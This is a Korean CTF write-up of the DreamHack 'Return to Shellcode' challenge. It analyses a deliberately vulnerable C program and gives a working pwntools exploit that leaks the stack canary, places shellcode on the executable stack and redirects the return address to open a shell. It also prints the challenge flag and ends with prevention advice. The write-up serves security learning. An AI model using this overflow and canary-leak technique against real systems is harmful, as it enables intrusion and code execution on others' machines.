






# B3 · Return to Shellcode

### 1. 문제 확인

`pwnable` 분류의 B3 문제로, 제공된 `r2s` 바이너리를 분석해 셸코드를 실행시키는 문제입니다. 바이너리는 **스택 카나리(canary)**가 켜져 있고, **스택 실행(`-zexecstack`)**이 허용되어 있습니다.

<p align="center">
  
</p>

### 2. 코드 분석 — 취약점

제공된 소스는 다음과 같습니다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x50];

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);                       // (1) 0x50 버퍼에 0x100바이트 입력 → 오버플로
  printf("Your input is '%s'\n", buf);       // (2) %s 출력 → 카나리 leak 창구

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);                                 // (3) gets → 길이 제한 없는 오버플로

  return 0;
}
```

취약점과 유리한 조건이 한꺼번에 있습니다.

- **`read(0, buf, 0x100)`** — `buf`는 `0x50`바이트인데 `0x100`바이트를 받습니다. 버퍼를 넘겨 카나리까지 덮을 수 있습니다.
- **`printf("... '%s'", buf)`** — `%s`는 `\x00`을 만날 때까지 출력합니다. 카나리의 첫 바이트 `\x00`만 덮으면 **카나리 값이 출력(leak)**됩니다.
- **`gets(buf)`** — 길이 제한 없이 입력을 받아 반환 주소까지 덮을 수 있습니다.
- **친절한 출력** — 프로그램이 `buf` 주소와 `buf ↔ rbp` 거리를 직접 알려줍니다. ASLR이 있어도 매번 정확한 주소를 얻습니다.
- **`-zexecstack`** — 스택이 실행 가능하므로 `buf`에 올린 **셸코드를 그대로 실행**할 수 있습니다.

### 3. 스택 구조 
<p align="center">
  
</p>

실행하면 `buf ↔ 카나리 = 0x58`과 카나리 값이 그대로 나옵니다.

<p align="center">
  
</p>

<p align="center">
  
</p>
- `buf`는 소스상 `0x50`이지만, 실제 **buf ↔ 카나리 거리는 `0x58`**이다 (`0x50 + 패딩 0x8`).


### 4. 공격 흐름

```text
[1] buf 주소 + (buf ↔ rbp) 거리 받기  →  buf2cnry = 거리 - 8
[2] A * (buf2cnry + 1) 로 카나리 첫 \x00을 덮어 출력 → 카나리 7바이트 leak
[3] buf에 셸코드 + 카나리 복원 + RET를 buf 주소로 덮기 → 셸코드 실행
```

- **카나리 leak**: 카나리 첫 바이트 `\x00`을 `A` 하나로 덮으면(`+1`), `%s` 출력이 거기서 멈추지 않고 카나리 나머지 7바이트까지 흘러나옵니다. 받은 7바이트 앞에 원래 값인 `\x00`을 다시 붙여 8바이트 카나리를 복원합니다.
- **카나리 우회**: 반환 주소까지 덮으려면 카나리를 지나가야 하는데, 값이 바뀌면 `__stack_chk_fail`로 종료됩니다. 그래서 leak한 **원래 카나리 값을 그대로 다시 써넣어** 검사를 통과시킵니다.
- **셸코드 실행**: `buf`에 셸코드를 올리고, 반환 주소를 `buf` 주소로 덮습니다. `main`이 반환할 때 `buf`로 점프해 셸코드가 실행됩니다(`-zexecstack` 덕분).

### 5. 익스플로잇 코드

서비스 포트는 인스턴스마다 바뀌므로 현재 문제 화면의 포트를 넣습니다. `asm(shellcraft.sh())`가 64비트 셸코드를 만들도록 **`context.arch = 'amd64'`를 `asm` 호출 전에** 설정합니다.

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'

p = remote('host3.dreamhack.games', 12190)   # 현재 문제 화면의 포트

# [1] buf 주소와 (buf ↔ rbp) 거리 받기
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8

# [2] 카나리 leak (첫 \x00을 A로 덮어 출력시킴)
payload = b'A' * (buf2cnry + 1)
p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))

# [3] 셸코드 + 카나리 복원 + RET를 buf로
sh = asm(shellcraft.sh())
payload  = sh.ljust(buf2cnry, b'A')   # [셸코드 + A패딩] = 카나리 직전까지
payload += p64(cnry)                   # 카나리 복원 → 검사 통과
payload += b'B' * 0x8                   # SFP 더미
payload += p64(buf)                     # RET를 buf(셸코드)로
p.sendlineafter(b'Input:', payload)

p.interactive()
```

### 6. 실행 결과

먼저 아래 코드로 `buf` 주소·거리·카나리가 제대로 수집되는지 확인합니다.


전체 익스플로잇을 실행하면 셸이 열리고 `cat flag`로 FLAG를 획득합니다.

<p align="center">
  
</p>

```text
DH{333eb89c9d2615dd8942ece08c1d34d5}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출합니다.

### 7. 취약점 예방법

- **입력 길이 제한** — `read(0, buf, 0x100)`처럼 버퍼보다 큰 크기를 넘기지 않고, `gets`는 쓰지 말고 `fgets(buf, sizeof(buf), stdin)`로 대체합니다.
- **주소/거리 노출 금지** — `buf` 주소나 스택 거리를 출력하면 ASLR·카나리 보호가 무력화됩니다. 디버그용 출력을 제거해야 합니다.
- **스택 실행 금지** — `-zexecstack`를 빼고 NX를 켜면 스택의 셸코드가 실행되지 않습니다.
- 카나리는 보조 수단일 뿐, 위 셋(길이 검사·정보 노출 차단·NX)이 함께 지켜져야 합니다.
